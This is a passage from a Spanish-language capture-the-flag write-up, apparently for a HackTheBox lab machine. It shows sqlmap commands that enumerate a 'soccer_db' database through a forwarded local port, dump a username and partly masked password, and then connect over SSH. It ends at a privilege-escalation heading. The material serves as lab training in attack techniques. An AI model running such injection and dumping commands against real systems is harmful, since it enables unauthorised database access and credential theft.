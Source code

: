 Ahora, con sqlmap, tal y como habíamos configurado en el exploit de Python, apuntamos a nuestro localhost e intentamos listar las bases de datos.

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -dbs
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Tenemos la tabla «cuentas»:

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns
Database: soccer_db
Table: accounts
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | varchar(40) |
| id       | int         |
| password | varchar(40) |
| username | varchar(40) |
+----------+-------------+
```

Nos interesan las columnas «nombre de usuario» y «contraseña».

```bash
❯ sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOfthe********* |
+----------+----------------------+
```

### SSH Connection

```bash
❯ ssh player@10.10.11.194
player@10.10.11.194's password: 
```
# Privilege Escalation

Ahora sólo tendríamos que subir los privilegios.
